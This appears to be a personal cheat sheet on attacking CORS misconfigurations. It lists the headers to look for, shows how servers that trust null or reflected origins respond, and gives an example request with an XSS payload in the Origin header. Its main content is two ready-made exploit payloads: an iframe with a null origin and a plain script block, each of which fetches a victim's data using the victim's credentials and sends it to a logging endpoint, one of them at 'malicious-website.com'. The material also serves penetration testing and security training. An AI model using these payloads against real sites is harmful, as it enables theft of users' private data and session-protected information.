 ### Look Out For Things that allow resource sharing from other sources…

Anything like:

`Access-Control` 

`Access-Control-Allow`

`Access-Control-Allow-Origin` 

`Access-Control-Allow-credentials`
_______________________________________________________________________________________________________________________________________________________________________
"Websites may trust null domains "
Origin: null

"Websites may trust unregistered domains that match the key words"
"Websites may trust expired domains"

`If a website trusts an origin that is vulnerable to cross-site scripting (XSS),
 then an attacker could exploit the XSS to inject some JavaScript that uses CORS 
 to retrieve sensitive information from the site that trusts the vulnerable application.`
_______________________________________________________________________________________________________________________________________________________________________
//Iframe with Null origin

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
_______________________________________________________________________________________________________________________________________________________________________

//HTML 
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','your.domain/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
_______________________________________________________________________________________________________________________________________________________________________
One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
It then responds with:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
_______________________________________________________________________________________________________________________________________________________________________
Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:

GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
And the server responds with:

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
_______________________________________________________________________________________________________________________________________________________________________
ATTACK VECTOR
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
Cookie: sessionid=...
